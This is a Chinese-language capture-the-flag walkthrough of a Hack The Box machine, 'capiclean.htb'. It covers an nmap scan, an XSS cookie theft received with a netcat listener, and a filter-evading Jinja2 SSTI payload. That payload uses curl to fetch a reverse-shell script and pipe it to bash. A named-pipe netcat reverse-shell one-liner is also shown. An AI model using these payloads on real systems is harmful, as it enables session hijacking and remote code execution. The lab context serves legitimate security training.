

# 服务
```
┌──(root㉿kali)-[~]
└─# nmap -sV -Pn -A 10.10.11.12
Starting Nmap 7.93 ( https://nmap.org ) at 2024-07-26 04:28 EDT
Nmap scan report for 10.10.11.12
Host is up (0.44s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 2cf90777e3f13a36dbf23b94e3b7cfb2 (ECDSA)
|_  256 4a919ff274c04181524df1ff2d01786b (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.52 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=7/26%OT=22%CT=1%CU=30126%PV=Y%DS=2%DC=T%G=Y%TM=66A35E8
OS:3%P=x86_64-pc-linux-gnu)SEQ(SP=FF%GCD=1%ISR=105%TI=Z%CI=Z)SEQ(SP=FF%GCD=
OS:1%ISR=105%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M53AST11NW7%O2=M53AST11NW7%O3=M53AN
OS:NT11NW7%O4=M53AST11NW7%O5=M53AST11NW7%O6=M53AST11)WIN(W1=FE88%W2=FE88%W3
OS:=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M53ANNSNW7%CC=Y
OS:%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=4
OS:0%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%
OS:Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%
OS:A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%
OS:RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 5900/tcp)
HOP RTT       ADDRESS
1   294.26 ms 10.10.16.1
2   534.10 ms 10.10.11.12

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 63.54 seconds

```

写hosts
```
echo "10.10.11.12 capiclean.htb" >> /etc/hosts
```

发现一个输入框


如果填入一个正常的邮箱会返回说后台人员会根据邮件很快回复我们

尝试xss


payload
```

```

urlencode后插入到service这个字段



开一个监听，拿到管理员的cookie
```
┌──(root㉿kali)-[~]
└─# nc -lnvp 80
listening on [any] 80 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.11.12] 42720
GET /session=eyJyb2xlIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMifQ.ZqdtFg.kzjQBBHOHIO2dg2aorvGQoGaEGg HTTP/1.1
Host: 10.10.16.5
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
Accept: */*
Origin: http://127.0.0.1:3000
Referer: http://127.0.0.1:3000/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9


```

使用cookie-editer加上上面cookie，可以访问dashboard


在Generate Invoice生成一个Invoice ID以后去到Generate QR页面

参考[这篇文章](https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/)


revshell
```
rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.5 443 >/tmp/f
```

payload
```
{{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("curl 10.10.16.5:80/revshell | bash")|attr("read")()}}
```

注入qr_link


拿到rev shell

